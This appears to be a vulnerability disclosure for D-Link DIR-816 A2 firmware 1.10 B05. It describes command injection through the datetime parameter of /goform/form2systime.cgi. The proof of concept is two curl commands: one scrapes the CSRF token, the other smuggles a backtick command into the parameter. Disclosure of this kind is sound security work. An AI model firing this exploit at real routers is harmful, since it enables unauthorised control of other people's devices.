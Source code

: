 # D-Link DIR-816 A2 Command Injection

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

In the handler of route `/goform/form2systime.cgi`, the value of parameter `datetime` is used in the construction of command `date -s "%s"`, which is later fed to `system`:

![](ida.png)

So it could lead to command injection with crafted request.

## POC

There's a random token required by the route, which is used as a mitigation against CSRF. So first we need to get its value:

```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```

Then we could send the crafted parameter along with the token to the route:

```bash
curl -i -X POST http://192.168.0.1/goform/form2systime.cgi -d tokenid=$TOKENID -d 'datetime=`sleep 5`-:'
```
